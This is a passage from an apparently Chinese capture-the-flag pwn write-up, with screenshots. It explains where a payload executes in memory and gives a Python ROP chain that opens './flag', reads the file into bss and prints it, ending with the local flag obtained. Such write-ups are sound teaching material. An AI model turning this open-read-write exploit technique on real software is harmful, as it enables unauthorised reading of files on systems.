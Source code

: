[![](assets/1708654729-074d3218fa3b8c5f9df7391beb5ddd59.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221011917-2d61e368-d014-1.png)  
从这里我们就看出第三个 payload 就直接沿着 0x404208 执行了，所以我们也是把'./flag'放在了 0x404200 的位置

```plain
pl=b'./flag\x00\x00'+p64(rdi)+p64(bss)+p64(rsi)+p64(0)+p64(rdx)+p64(0)+p64(open_addr)
pl+=p64(rdi)+p64(3)+p64(rsi)+p64(bss+0x400)+p64(rdx)+p64(0x100)+p64(read_addr)
pl+=p64(rdi)+p64(bss+0x400)+p64(puts_addr)
s(pl)
```

然后就得到了本地测试的 flag

[![](assets/1708654729-9551511b28281c34b083869c17ab7f6f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221011941-3bc4dd48-d014-1.png)

### exp
